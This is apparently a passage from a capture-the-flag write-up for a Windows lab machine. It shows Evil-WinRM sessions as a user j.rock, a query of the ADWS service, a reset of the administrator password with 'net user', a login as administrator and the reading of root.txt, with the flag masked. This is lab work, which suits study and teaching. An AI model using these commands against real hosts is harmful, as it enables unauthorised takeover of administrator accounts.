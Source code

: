 <h4>exited</h4>

```bash
*Evil-WinRM* PS C:\Users\Administrator> exit                                        
```

<h4>logged as j.rock</h4>

```bash
:~/Services# evil-winrm -u j.rock -p '*************' -i TargetIP
...                                        
Info: Establishing connection to remote endpoint
```

<h4>queried adws</h4>

```bash
*Evil-WinRM* PS C:\Users\j.rock\Documents> sc.exe query adws

SERVICE_NAME: adws
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```

<h4>tried to catt root.txt --> denied</h4>

<h4>changed administrator´s password</h4>

```bash
*Evil-WinRM* PS C:\users\administrator\desktop> net user administrator anything123
The command completed successfully.
```

<h4>exited</h4>

```bash
PS C:\users\administrator\desktop> exit
```

<h4>logged in as administrator</h4>

```bash
:~/Services# evil-winrm -u administrator -p 'anything123' -i TargetIP
...                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> dir


    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----        6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        2/15/2023   5:53 AM             48 root.txt


*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
THM{****************}
```
